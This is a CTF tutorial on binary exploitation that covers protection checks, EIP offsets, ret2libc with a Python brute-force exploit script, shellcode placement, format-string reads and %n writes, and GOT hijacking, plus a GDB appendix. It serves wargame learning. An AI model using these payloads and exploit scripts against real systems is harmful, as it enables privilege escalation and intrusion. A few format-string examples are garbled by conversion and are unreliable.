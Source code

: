 *********************************
CTF Series :  Binary Exploitation
*********************************

This post (Work in Progress) lists the tips and tricks while doing Binary Exploitation challenges during various CTF's and Over The Wire Wargame.

**Thanks to superkojiman, barrebas, et0x who helped me learning the concepts.**

Basics
======

Let's start with some basic concepts and then we would see some examples which would help to clear the concepts.

* Big-endian systems store the most significant byte of a word in the smallest address and the least significant byte is stored in the largest address. Little-endian systems, in contrast, store the least significant byte in the smallest address. {% img left /images/big-endian.png 250 250 %} {% img right /images/little-endian.png 250 250 %}

Initial Checks?
---------------
When you get a binary for exploitation, we need to find whether it is 32-bit or 64-bit ELF, which platform it is running, whether any buffer overflow prevention techniques has been used, what is EIP offset.

Binary Architecture
^^^^^^^^^^^^^^^^^^^
Executable binary is running on whether x86 or x86-64.

::

  uname -a

Whether the binary is compiled for 32 bit or 64 bit.

::

  file binary_file

Binary Help?
^^^^^^^^^^^^

Probably a good idea to just run the binary with -h or --help flag to check if any help documentation is provided.

::

 $ ./flagXX -h
 Usage: php [options] [-f] <file> [--] [args...]
       php [options] -r <code> [--] [args...]


Binary Protection
^^^^^^^^^^^^^^^^^

Multiple Buffer overflow prevention techniques such as RELRO, NoExecute (NX), Stack Canaries, Address Space Layout Randomization (ASLR) and Position Independent Executables (PIE).

::

    Address space Layout Randomization     : Kernel
    Executable Stack Protection            : Compiler
    Stack smashing protection              : Compiler
    Position Independent Executables       : Compiler
    Fortify Source                         : Compiler
    Stack Protector                        : Compiler

* Which buffer overflow prevention techniques are used can be found by running Checksec Script. This script is present in gdb-peda.

* Whether the stack of binary is executable is not can be found by readelf tool. If Program header GNU\_STACK has RWE flag, if it has E flag, it's executable.

 ::

    narnia8@melinda:~$ readelf -l /narnia/narnia8 | grep GNU_STACK
    GNU_STACK      0x000000 0x00000000 0x00000000 0x00000 0x00000 RWE 0x10

 In order to make the stack executable, the program needs to be compiled with -z execstack option and to disable stack smashing option -fno-stack-protector should be used.

 ::

    gcc -ggdb -m32 -fno-stack-protector -z execstack -o buffer1 buffer1.c


* Address Space Layout Randomization (ASLR) controlled by /proc/sys/kernel/randomize\_va\_space.

 ::

    Three Values:
    0  : Disable ASLR. This setting is applied if the kernel is booted with the norandmaps boot parameter.
    1  : Randomize the positions of the stack, virtual dynamic shared object (VDSO) page, and shared memory regions. The base address of the data segment is located immediately after the end of the executable code segment.
    2  : Randomize the positions of the stack, VDSO page, shared memory regions, and the data segment. This is the default setting.

 You can change the setting temporarily by writing a new value to /proc/sys/kernel/randomize\_va\_space, for example:

 ::

    echo value > /proc/sys/kernel/randomize_va_space

 To change the value permanently, add the setting to /etc/sysctl.conf, for example:

 ::

    kernel.randomize_va_space = value
    and run the sysctl -p command.

 If you change the value of randomize_va_space, you should test your application stack to ensure that it is compatible with the new setting. If necessary, you can disable ASLR for a specific program and its child processes by using the following command:

 ::

    % setarch `uname -m` -R program [args ...]

EIP Offsets?
^^^^^^^^^^^^

To know the EIP offset, you can use cyclic patterns. Use pattern_create.rb to create a random pattern which can be used to find the offset and pattern\_offset.rb to find the exact offset.

::

   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200
   Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag

   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0x37654136
   [*] Exact match at offset 140



Buffer overflow
===============

Executable Stack
----------------

Either you can put the shellcode on the buffer and then redirect the EIP to NOP Sled followed by the shellcode (provided the shellcode used is correct and the stack is executable).

Non-executable stack, ASLR Disabled
-----------------------------------

However, if the stack is not executable or the shellcode is not working (happens sometimes), then we can either,

Export a environment variable
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

* Export a environment variable with shellcode.
* Find the address of env variable in the stack. Utilize getenvaddr.c to get the address of the environment variable

 .. code-block:: c

  ---getenvaddr.c---

  #include <stdio.h>
  #include <stdlib.h>
  #include <string.h>

  int main(int argc, char *argv[]) {
	 char *ptr;

	 if (argc < 3) {
	 	printf("Usage: %s <environment var> <target program name>\n", argv[0]);
	 	exit(0);
	 } else {
		 ptr = getenv(argv[1]); /* Get environment variable location */
		 ptr += (strlen(argv[0]) - strlen(argv[2])) * 2; /* Adjust for program name */
		 printf("%s will be at %p\n", argv[1], ptr);
 	 }
   }


* Set the return address to starting of the shellcode 
* Get a shell

Return2libc
^^^^^^^^^^^

Use return2libc which is a type of ROP

* Find the address of system function (Run "gdb -q ./program"; break main; p system)

  ::

   gdb -q ./retlib
   (no debugging symbols found)...(gdb)
   (gdb) b main
   Breakpoint 1 at 0x804859e
   (gdb) r
   Starting program: /home/c0ntex/retlib
   (no debugging symbols found)...(no debugging symbols found)...
   Breakpoint 1, 0x0804859e in main ()
   (gdb) p system
   $1 = {<text variable, no debug info>} 0x28085260 <system> 

* Find the address of "/bin/sh" in the stack or export it in the environment variable and execute it like system("/bin/sh"). It is in the format of 

 ::

   <ADDRofSYSTEM> <4ArbitraryBytes for Return Address> <argument for system[/bin/sh]>

  4Arbitrary Bytes for Return address could be a JUNK address or "\xCC\xCC\xCC\xCC" or address of exit function.

If Return Address set to

* \\xCC\\xCC\\xCC\\xCC so after system executes, it tries to return to 0xcccccccc. \\xcc is good just to check if you're actually jumping to your shellcode, but once you've verified that it works, then you should remove it. ret expects an address. not a payload, \xCC\xCC\xCC\xCC should be present as a payload.
* If a JUNK address is put, the binary will have already executed the shellcode but it will segfault.
* If the proper address of exit() is used, binary will exit cleanly.

It's better to use /bin/sh instead of /bin/bash since bash drops privs. If /bin/bash is used, it will launch /bin/bash but you'll find that you haven't elevated your privileges and this can get confusing. so either find another string that points to /bin/sh or set your own env variable like DASH=/bin/sh and reference that. Good paper to review is `Bypassing non-executable-stack during Exploitation (return-to-libc) <https://css.csail.mit.edu/6.858/2017/readings/return-to-libc.pdf>`_ and `Performing a ret2libc Attack <http://shellblade.net/docs/ret2libc.pdf>`_ 


* Sometimes you need to put a cat to keep the shell alive

 ::

    (cat input; cat) | ./binary input is the payload you are sending.

Return-Oriented Programming
^^^^^^^^^^^^^^^^^^^^^^^^^^^

Msfelfscan can be used to locate interesting addresses within executable and linkable format (ELF) programs, which may prove useful in developing exploits.

::

 /usr/share/framework2/msfelfscan -f stack7
  Usage: /usr/share/framework2/msfelfscan <input> <mode> <options>
 Inputs:
         -f  <file>    Read in ELF file
 Modes:
         -j  <reg>     Search for jump equivalent instructions
         -s            Search for pop+pop+ret combinations
         -x  <regex>   Search for regex match
         -a  <address> Show code at specified virtual address
 Options:
         -A  <count>   Number of bytes to show after match
         -B  <count>   Number of bytes to show before match
         -I  address   Specify an alternate base load address
         -n            Print disassembly of matched data

We can use msfelfscan to get pop-pop-retun, choose that address and use

::

 pop-pop-ret-addr | 8 bytes junk | address to execute |

 where address-to-execute is the address of the environment variable where shellcode is stored.


Non-Executable Stack, ASLR Enabled
----------------------------------

If the aslr is enabled, the address for the libc would change everytime, the binary is executed.

::

 for i in `seq 1 5`; do ldd ovrflw | grep libc; done
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb762f000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb758f000)
	libc.so.6 => /lib/i386-linux-gnu/libc.so.6 (0xb75ae000)

However, if we notice the libc address in not changing much, first three characters and last three characters remain the same. Because, the machine we are doing would be probably a CTF machine, so we can brute-force the possible libc address. It is suggested to figure out the offset of system, exit and string "/bin/sh" from the libc base address. Remember,

::

 <ADDRofSYSTEM> <4ArbitraryBytes for Return Address> <argument for system[/bin/sh]>

Find the offset of system, exit and /bin/sh
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

System

::

 readelf -s /lib/i386-linux-gnu/libc.so.6 | grep system
   246: 00113d70    68 FUNC    GLOBAL DEFAULT   13 svcerr_systemerr@@GLIBC_2.0
   628: 0003ab40    55 FUNC    GLOBAL DEFAULT   13 __libc_system@@GLIBC_PRIVATE
  1461: 0003ab40    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0

Exit function

::

 readelf -s /lib/i386-linux-gnu/libc.so.6 | grep exit
   112: 0002ec00    39 FUNC    GLOBAL DEFAULT   13 __cxa_at_quick_exit@@GLIBC_2.10
   141: 0002e7f0    33 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
   451: 0002ec30   181 FUNC    GLOBAL DEFAULT   13 __cxa_thread_atexit_impl@@GLIBC_2.18
   559: 000b1645    24 FUNC    GLOBAL DEFAULT   13 _exit@@GLIBC_2.0
   617: 00116de0    56 FUNC    GLOBAL DEFAULT   13 svc_exit@@GLIBC_2.0
   652: 00120b60    33 FUNC    GLOBAL DEFAULT   13 quick_exit@GLIBC_2.10
   654: 0002ebd0    33 FUNC    GLOBAL DEFAULT   13 quick_exit@@GLIBC_2.24
   878: 0002ea20    85 FUNC    GLOBAL DEFAULT   13 __cxa_atexit@@GLIBC_2.1.3
  1048: 00120b20    52 FUNC    GLOBAL DEFAULT   13 atexit@GLIBC_2.0
  1398: 001b3204     4 OBJECT  GLOBAL DEFAULT   33 argp_err_exit_status@@GLIBC_2.1
  1510: 000f4130    58 FUNC    GLOBAL DEFAULT   13 pthread_exit@@GLIBC_2.0
  2112: 001b3150     4 OBJECT  GLOBAL DEFAULT   33 obstack_exit_failure@@GLIBC_2.0
  2267: 0002e820    78 FUNC    WEAK   DEFAULT   13 on_exit@@GLIBC_2.0
  2410: 000f54f0     2 FUNC    GLOBAL DEFAULT   13 __cyg_profile_func_exit@@GLIBC_2.2

String /bin/sh

::

 strings -a -t x /lib/i386-linux-gnu/libc.so.6 | grep /bin/sh
 15cdc8 /bin/sh

Now, we know the offset of the system, exit and /bin/sh

::

  1461: 0003ab40    55 FUNC    WEAK   DEFAULT   13 system@@GLIBC_2.0
   141: 0002e7f0    33 FUNC    GLOBAL DEFAULT   13 exit@@GLIBC_2.0
 15cdc8 /bin/sh

Creation of exploit
^^^^^^^^^^^^^^^^^^^

Now, when we have the offset, let's take a sample libc address and create the exploit

::

 from subprocess import call
 import struct

 #---Offsets of System, Exit and /bin/sh
 libc_base_addr = 0xb75e6000
 system_offset  = 0x00040310
 exit_offset    = 0x00033260
 binsh_offset   = 0x00162bac

 #---Calculation of System, Exit, binsh addr
 system_addr = struct.pack("<I",libc_base_addr + system_offset)
 exit_addr   = struct.pack("<I",libc_base_addr + exit_offset)
 binsh_addr  = struct.pack("<I",libc_base_addr + binsh_offset)

 #---Creating the payload
 buf = "A" * 112
 buf += system_addr
 buf += exit_addr
 buf += binsh_addr


Calling the targetted binary multiple times
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

::

 #---Execution of the binary multiple times
 i = 0;
 while(i<512):
   print "Try :%s" %i
   i = i+1
   ret = call(["/usr/local/bin/ovrflw",buf])

* Sometimes we need a shellcode to write a string or for getting a actual shell. A good reference can be found `Introduction to Writing Shellcode <https://www.exploit-db.com/raw/13224/>`_ Information about various system call integar value need to be present in EAX register is `Linux System Call Table <https://syscalls.kernelgrok.com/>`_ 

 Let's see a small example where we move an address to eax register and jump to it. Address which we are moving to eax would contain our shellcode.

 ::

   ;test.asm
   [SECTION .text]
   global _start
   _start:
           mov eax, 0xffffd8bc
         jmp eax

 Just good to know: global directive is NASM specific. It is for exporting symbols in your code to where it points in the object code generated. Here you mark \_start symbol global so its name is added in the object code (a.o). The linker (ld) can read that symbol in the object code and its value so it knows where to mark as an entry point in the output executable. When you run the executable it starts at where marked as \_start in the code.

 If a global directive missing for a symbol that symbol will not be placed in the object code's export table so linker has no way of knowing about the symbol. We can compile the asm file by 
 ::

   nasm -f elf test.asm

 link it

 ::

   ld -o test test.o

 If you get the below error
 ::

   ld: i386 architecture of input file `test.o' is incompatible with i386:x86-64 output

 either 

 Use 64 bits instead of 32 for your loader and compile it with the following command:
 ::

   nasm -f elf64 loader.asm -o loader.o

 or 

 If want compile the file as 32 bits composition, you can use:

 ::

   ld -m elf_i386 -s -o file.o file

 To see the byte code 
 ::

   objdump -d <file>


* What we mostly do when exploiting a buffer overflow (when placing the shellcode on stack) is we place our shellcode before EIP, we should also check if we can put our shellcode after EIP. This is particularly useful when some kind of check for shellcode is present in address before EIP. Example: Suppose our EIP is present at offset 80. We would usually do

 ::

   python -c 'print "\x90"*50 + "30 Bytes of ShellCode" + "4 Bytes return address to NOP or shellcode in left"'

 However, if somekind of check for alphanumeric characters is present for first 80 bytes you won't be able to put your shellcode in those 80 bytes. At that point of time you should check if you can overflow post EIP and redirect. For example

 ::

    python -c 'print "A"*80 + "4 Bytes return address to NOP or shellcode in right" + "\x90"*50 + "30 Bytes of ShellCode"'


Format String Vulnerability
===========================

Definition
----------

If an attacker is able to provide the format string to an ANSI C format function in part or as a whole, a format string vulnerability is present. By doing so, the behaviour of the format function is changed, and the attacker may get control over the target application. A format string is an ASCIIZ string that contains text and format parameters. Example:

::

  printf ("The magic number is: %d\n", 1911);

Behaviour of the format function
--------------------------------

The behaviour of the format function is controlled by the format string. The function retrieves the parameters requested by the format string from the stack.

::

  printf ("Number %d has no address, number %d has: %08x\n", i, a, &a);

From within the printf function the stack looks like:

::

   stack top 
   . . . 
   <&a> 
   <a> 
   <i>
    A 
   . . .
   stack bottom

Crashing the Program
--------------------

By utilizing format strings we can easily trigger some invalid pointer access by just supplying a format string like: 

::

  printf ("%s%s%s%s%s%s%s%s%s%s%s%s");

Because ‘%s’ displays memory from an address that is supplied on the stack, where a lot of other data is stored, too, our chances are high to read from an illegal address, which is not mapped.


Viewing the stack
-----------------

How some parts of the stack memory by using a format string like this:

::

  printf ("%08x.%08x.%08x.%08x.%08x\n");

This works, because we instruct the printf-function to retrieve five parameters from the stack and display them as 8-digit padded hexadecimal numbers. So a possible output may look like:

::

  40012980.080628c4.bffff7a4.00000005.08059c04

This is a partial dump of the stack memory, starting from the current bottom upward to the top of the stack — assuming the stack grows towards the low addresses.


Viewing Memory at any location
------------------------------

We can look at memory locations different from the stack memory by providing an address to the format string.

Our format string is usually located on the stack itself, so we already have near to full control over the space, where the format string lies. The format function internally maintains a pointer to the stack location of the current format parameter. If we would be able to get this pointer pointing into a memory space we can control, we can supply an address to the ‘%s’ parameter. To modify the stack pointer we can simply use dummy parameters that will ‘dig’ up the stack by printing junk:

::

  printf ("AAA0AAA1_%08x.%08x.%08x.%08x.%08x");

The ‘%08x’ parameters increase the internal stack pointer of the format function towards the top of the stack. After more or less of this increasing parameters the stack pointer points into our memory: the format string itself. The format function always maintains the lowest stack frame, so if our buffer lies on the stack at all, it lies above the current stack pointer for sure. If we choose the number of ‘%08x’ parameters correctly, we could just display memory from an arbitrary address, by appending ‘%s’ to our string. In our case the address is illegal and would be ‘AAA0’. Lets replace it with a real one. Example:

::

  address = 0x08480110
  address (encoded as 32 bit le string): "\x10\x01\x48\x08" 
  printf ("\x10\x01\x48\x08_%08x.%08x.%08x.%08x.%08x|%s|");

Will dump memory from 0x08480110 until a NUL byte is reached. If we cannot reach the exact format string boundary by using 4-Byte pops (‘%08x’), we have to pad the format string, by prepending one, two or three junk characters. 3 This is analog to the alignment in buffer overflow exploits.


Overwriting of Arbitrary Memory
-------------------------------

There is the ‘%n’ parameter, which writes the number of bytes already printed, into a variable of our choice. The address of the variable is given to the format function by placing an integer pointer as parameter onto the stack. But if we supply a correct mapped and writeable address this works and we overwrite four bytes (sizeof (int)) at the address: 

::

  "\xc0\xc8\xff\xbf_%08x.%08x.%08x.%08x.%08x.%n"

The format string above will overwrite four bytes at 0xbfffc8c0 with a small integer number. We have reached one of our goals: we can write to arbitrary addresses. By using a dummy parameter ‘%nu’ we are able to control the counter written by ‘%n’, at least a bit.

Direct Parameter Access
^^^^^^^^^^^^^^^^^^^^^^^

The direct parameter access is controlled by the ‘$' qualifier

::
 
  printf ("%6`\ d:raw-latex:`\n`", 6, 5, 4,3, 2, 1);

Prints ‘1’, because the ‘6$’ explicitly addresses the 6th parameter on the stack.

The above text is taken from and a good paper to read for format string is `Exploiting Format String Vulnerabilities`_

 .. _Exploiting Format String Vulnerabilities: http://www.cis.syr.edu/~wedu/seed/Labs/Vulnerability/Format_String/files/formatstring-1.2.pdf

Write two bytes
^^^^^^^^^^^^^^^
We can write two bytes by %hn and one byte by %hhn.

Write four bytes
^^^^^^^^^^^^^^^^

How to write four bytes? Suppose we need to write 0x8048706 to the address 0xffffd64c.

::

  HOB:0x0804 LOB:0x8706

  If HOB < LOB

  [addr+2][addr] = \x4e\xd\xff\xff\x4c\xd\xff\xff
  %.[HOB - 8]x = 0x804 - 8 = 7FC (2044) = %.2044x
  %[offset]$hn = %6\$hn 
  %.[LOB - HOB]x = 0x8706 - 0x804 = 7F02 (32514) = %.32514x 
  %[offset+1]`\ hn = %7$hn

  python -c 'print "\x4e\xd6\xff\xff\x4c\xd6\xff\xff" +"%.2044x%6\$hn %.32514x%7\$hn"'

Hijack the Global Offset Table with pointers
--------------------------------------------

**Definition** 

The Global Offset Table redirects position independent address calculations to an absolute location and is located in the .got section of an ELF executable or shared object. It stores the final (absolute) location of a function calls symbol, used in dynamically linked code. When a program requests to use printf() for instance, after the rtld locates the symbol, the location is then relocated in the GOT and allows for the executable via the Procedure Linkage Table, to directly access the symbols location.

When you disassemble main and printf statement is present, you will get like        

::

    0x080484b9 <+60>: call 0x8048330 printf@plt <----PLT

if you further disassemble printf

::
   
    gdb-peda$ pdisass printf 
    Dump of assembler code for function printf@plt:
        0x08048330 <+0>: jmp DWORD PTR ds:0x8049788 <----GOT Address 
        0x08048336 <+6>: push 0x0 
        0x0804833b <+11>: jmp 0x8048320 End of assembler dump.

Further disassembling the address 0x8049788
  
::

   gdb-peda$ pdisass 0x8049788
   Dump of assembler code from 0x8049788 to 0x80497a8:
     0x08049788 <printf@got.plt+0>:   add    DWORD PTR ss:[eax+ecx*1],0x46
     0x0804978d <fgets@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x56
     0x08049791 <puts@got.plt+1>: add    DWORD PTR [eax+ecx*1],0x66
     0x08049795 <__gmon_start__@got.plt+1>:   add    DWORD PTR [eax+ecx*1],0x76
     0x08049799 <__libc_start_main@got.plt+1>:    add    DWORD PTR [eax+ecx*1],0x0
     0x0804979d <data_start+1>:   add    BYTE PTR [eax],al
     0x0804979f <data_start+3>:   add    BYTE PTR [eax],al
     0x080497a1 <__dso_handle+1>: add    BYTE PTR [eax],al
     0x080497a3 <__dso_handle+3>: add    BYTE PTR [eax],al
     0x080497a5 <stdin@@GLIBC_2.0+1>: add    BYTE PTR [eax],al
     0x080497a7 <stdin@@GLIBC_2.0+3>: add    BYTE PTR [eax],al
   End of assembler dump. 

Objdump reflects the same (notice the +1) GOT address:

::
    
    objdump --dynamic-reloc ./behemoth3 

    ./behemoth3:     file format elf32-i386

    DYNAMIC RELOCATION RECORDS
    OFFSET   TYPE              VALUE 
    08049778 R_386_GLOB_DAT    __gmon_start__
    080497a4 R_386_COPY        stdin
    08049788 R_386_JUMP_SLOT   printf
    0804978c R_386_JUMP_SLOT   fgets
    08049790 R_386_JUMP_SLOT   puts
    08049794 R_386_JUMP_SLOT   __gmon_start__
    08049798 R_386_JUMP_SLOT   __libc_start_main


Quick diagram what it looks like:

So a quick diagram of what happens looks kind'a like this:

::

   [printf()] <--------------------------------
      |                                       |
      --------------> [PLT]--->[d_r_resolve]--|
                        |           |         |
                        -------------------->[GOT]<--
                                    |               |
                                     ------->[libc]--


A good paper to read about and from where the definition and diagram is taken is How to Hijack the Global Offset Table with pointers

Tips and Tricks
===============

* Probably, sometimes, we have to use `Socket re-use shellcode <https://www.exploit-db.com/exploits/34060/>`_ 
* To attach to a network process in gdb, you might have to use

 ::

  gdb-peda$ set follow-fork-mode child

* If the parent is killed, children become children of the init process (that has the process id 1 and is launched as the first user process by the kernel). The init process checks periodically for new children, and kills them if they have exited (thus freeing resources that are allocated by their return value).

Appendix-I GDB Basics
=====================

Getting inputs
--------------

Taken from `Managing inputs for payload injection? <https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection>`_

Getting inputs from char \*argv[]
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
We can read the arguments from the initial command line

::
 
 $> ./program $(python -c 'print("\xef\xbe\xad\xde")')

In gdb, we can pass the arguments through the run command line:

::

 (gdb) run $(python -c 'print("\xef\xbe\xad\xde")')

Getting inputs from a file
^^^^^^^^^^^^^^^^^^^^^^^^^^

We can also provide input from file

::

 $> ./program ./myfile.txt

And, within gdb

::

 (gdb) run myfile.txt

Then, outside of gdb you can rewrite the content of the file and run your program again and again in gdb.

Getting inputs from stdin
^^^^^^^^^^^^^^^^^^^^^^^^^
Getting the input through stdin can be achieve through a wide variety of functions such as fgets(), scanf(), getline(), read() and others. It raises a few problems because the program stop while executing and wait to be fed with characters.

In case you have to deal with several inputs (eg login, password, ...), you need to use separators between the inputs. Usually the separator between each input is just a newline character (\n or \r depending on the system you are in).

Now, you have two ways of doing to feed the stdin. Either we pass the file

::

 $> cat ./mycommands.txt | ./program
 
The stdin requires to run the command either through a file

::

 (gdb) run < ./mycommands.txt

And do as said in the previous case.

The other option is to pipe the output of a command to the stdin of the program

::

 $> python -c 'print("\xef\xbe\xad\xde")' | ./program

In gdb we can use the bash process substitution <(cmd) trick:

::

 (gdb) run < <(python -c 'print("\xef\xbe\xad\xde")')

This way is much quicker than effectively creating a named pipe and branch your program on it. Creating the named pipe outside of gdb requires a lot of unnecessary steps where you have it instantly with the previous technique.

Note also that, some people are using <<$(cmd) like this:

::

 (gdb) run <<< $(python -c 'print("\xef\xbe\xad\xde")')

But, this last technique seems to filter out all NULL bytes (for whatever reason), so you should prefer the first one (especially if you want to pass NULL bytes).

Getting inputs from network
^^^^^^^^^^^^^^^^^^^^^^^^^^^

We can use netcat nc. Basically, if your vulnerable program is listening on localhost:666 then the command line would be:

::

 $> python -c 'print("\xef\xbe\xad\xde")' | nc -vv localhost 666

Within gdb, the point will be to run (r) the program and to connect to it from another terminal.

Keep the stdin open after injection
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^
Most of the techniques for stdin will send the exploit string to the program which will end shortly after the termination of the input. This mainly happens in gets buffer overflow, so, the stdin should be closed and reopened. The best way to keep it open afterward and get an active shell is to add a cat waiting for input on its stdin. It should look like this if you go though a file:

::

 $> (cat ./mycommands.txt; cat) | ./program

Or, if you want a shell command:

::

 $> (python -c 'print("\xef\xbe\xad\xde")'; cat) | ./program

Or, finally, if you are going through the network:

::

 $> (python -c 'print("\xef\xbe\xad\xde")'; cat) | nc -vv localhost 666

Examining Data
--------------

Examining functions
^^^^^^^^^^^^^^^^^^^

info functions command : Dislays the list of functions in the debugged program

::

 gdb-peda$ info functions 
 All defined functions:

 Non-debugging symbols:
 0x00000000000005a0  _init
 0x00000000000005d0  setresgid@plt
 0x00000000000005e0  system@plt
 0x00000000000005f0  printf@plt
 0x0000000000000600  getegid@plt
 0x0000000000000620  _start
 0x0000000000000650  deregister_tm_clones
 0x0000000000000690  register_tm_clones
 0x00000000000006e0  __do_global_dtors_aux
 0x0000000000000720  frame_dummy
 0x000000000000072a  vuln
 0x0000000000000765  main
 0x00000000000007c0  __libc_csu_init
 0x0000000000000830  __libc_csu_fini
 0x0000000000000834  _fini

Run it before running the program, otherwise all linked functions would also be shown.


Examining Memory
^^^^^^^^^^^^^^^^
We can use the command x (for "examine") to examine memory in any of several formats, independently of your program's data types.

::

 x/nfu addr
 x addr
 x
 
Use the x command to examine memory.

n, f, and u are all optional parameters that specify how much memory to display and how to format it; addr is an expression giving the address where you want to start displaying memory.

* n, the repeat count : The repeat count is a decimal integer; the default is 1. It specifies how much memory (counting by units u) to display.
* f, the display format : The display format is one of the formats used by print, 's' (null-terminated string), or 'i' (machine instruction). The default is 'x' (hexadecimal) initially. The default changes each time you use either x or print.
* u, the unit size : The unit size is any of

 * b Bytes.
 * h Halfwords (two bytes).
 * w Words (four bytes). This is the initial default.
 * g Giant words (eight bytes).

Examining Data
^^^^^^^^^^^^^^

Sometimes, you need to know the address of the variable, inorder to write arbitary value in to it. 
   
:: 

   run gdb <program> p &<variablename>

Find the address of a string using GDB?
  
::

   (gdb) info proc map
   process 930
   Mapped address spaces:

      Start Addr           End Addr       Size     Offset objfile
        0x400000           0x401000     0x1000        0x0 /myapp
        0x600000           0x601000     0x1000        0x0 /myapp
        0x601000           0x602000     0x1000     0x1000 /myapp
    0x7ffff7a1c000     0x7ffff7bd2000   0x1b6000        0x0 /usr/lib64/libc-2.17.so
    0x7ffff7bd2000     0x7ffff7dd2000   0x200000   0x1b6000 /usr/lib64/libc-2.17.so
    0x7ffff7dd2000     0x7ffff7dd6000     0x4000   0x1b6000 /usr/lib64/libc-2.17.so
    0x7ffff7dd6000     0x7ffff7dd8000     0x2000   0x1ba000 /usr/lib64/libc-2.17.so

    (gdb) find 0x7ffff7a1c000,0x7ffff7bd2000,"/bin/sh"
    0x7ffff7b98489
    1 pattern found.
    (gdb) x /s 0x7ffff7b98489
    0x7ffff7b98489: "/bin/sh"
    (gdb) x /xg 0x7ffff7b98489
    0x7ffff7b98489: 0x0068732f6e69622f

Examining Registers
^^^^^^^^^^^^^^^^^^^

We can refer to machine register contents, in expressions, as variables with names starting with '$'. The names of registers are different for each machine; use info registers to see the names used on your machine.

* info registers : Print the names and values of all registers except floating-point registers (in the selected stack frame).
* info all-registers : Print the names and values of all registers, including floating-point registers.
